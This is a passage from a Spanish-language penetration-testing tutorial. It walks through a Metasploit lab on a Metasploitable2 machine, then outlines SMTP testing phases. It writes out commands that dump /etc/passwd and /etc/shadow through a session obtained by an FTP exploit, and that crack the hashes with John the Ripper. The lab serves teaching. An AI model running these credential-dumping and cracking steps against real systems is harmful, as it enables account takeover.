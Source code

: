 *Y ahora tenemos un shell en la sesión 2. Podemos enviarlo al fondo (^Z), enumerar las sesiones abiertas (sesiones -l) e interactuar (sesiones 2)*

![Sesiones](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/sesiones.png?raw=true)

*Intentaremos extraer usuarios y contraseñas del objetivo utilizando el módulo hashdump. Ponga la sesión en segundo plano y seleccione el módulo:*

![Hashdump](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/hashdump.png?raw=true)

> use post/linux/gather/hashdump

> *show options*

> *set SESSION 2*

> *show info*

> *run*

*Ahora usa el comando 'loot' para ver los resultados hasta el momento:*

> loot

![loot](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/loot.png?raw=true)

*Pudimos obtener los archivos passwd, shadow y unshadow.*

*Abra otra terminal para que John el Destripador los abra:*

> $ john .msf4/loot/20190402110303_metasploitable2_192.168.231.109_linux.hashes_935091.txt

*Para ver los resultados utilice la opción --show:*

![show](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/show.png?raw=true)

*Escaneamos el puerto 21 y determinamos que una versión vulnerable estaba ejecutando el servicio FTP. Usando MSF pudimos:*

- *crear una sesión remota,*
- *obtener los archivos /etc/passwd y /etc/shadow*
- *obtener credenciales de acceso usando John the Ripper*

## ***Puerto 25 SMTP (Simple Mail Transfer Protocol)***

*Las pruebas de penetración en SMTP (Simple Mail Transfer Protocol) son esenciales para evaluar la seguridad de los servidores de correo electrónico. A continuación, se describen las fases clave de las pruebas de penetración en SMTP:*

- *Reconocimiento:*
    - *Identificación del servidor SMTP: Determina las direcciones IP y los nombres de dominio asociados con el servidor de correo electrónico objetivo.*
    - *Enumeración de usuarios: Recopila información sobre usuarios válidos, lo que podría facilitar ataques de fuerza bruta o de diccionario.*
- *Análisis de Configuración:*
    - *Verificación de restricciones de acceso: Evalúa las políticas de acceso, como las restricciones basadas en direcciones IP.*
    - *Validación de filtrado de contenido: Asegura que el servidor filtre contenido malicioso y maneje adecuadamente los archivos adjuntos.*
- *Ataques de Fuerza Bruta: Realiza intentos de inicio de sesión con contraseñas comunes o débiles para evaluar la resistencia del sistema.*
- *Verificación de Autenticación: Autenticación segura: Confirma que las políticas de autenticación, como STARTTLS, se implementan de manera segura.*
- *Pruebas de Relay Abierto: Comprueba si el servidor permite el reenvío de correos electrónicos sin autenticación, lo cual puede ser explotado por atacantes.*
- *Ataques de Inyección de Correo Electrónico: Evalúa la capacidad del servidor para resistir ataques de manipulación de encabezados de correo electrónico.*
- *Inyección de contenido: Verifica la resistencia a la inyección de contenido malicioso en el cuerpo del correo electrónico.*